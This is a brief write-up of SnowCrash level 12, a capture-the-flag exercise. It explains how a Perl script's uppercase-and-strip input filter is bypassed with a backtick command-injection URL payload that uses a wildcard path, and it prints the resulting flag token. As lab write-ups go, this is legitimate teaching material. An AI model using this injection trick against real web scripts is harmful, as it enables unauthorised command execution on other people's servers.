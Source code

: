 ## Level 12

In level12, we found a perl script used on the 127.0.0.1:5959 address.

As we see in the t function, the perl program use regex expression to format the x param send to the server.

Change a-z to A-Z
  $xx =~ tr/a-z/A-Z/;


Remplace space by nothing
  $xx =~ s/\s.*//;


level12@SnowCrash:~$ echo "getflag > /tmp/MYFLAG" > /tmp/FLAG


We have to go on the following URL

http://192.168.56.101:4646/?x=%60/*/FLAG%60

level12@SnowCrash:~$ cat /tmp/MYFLAG
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr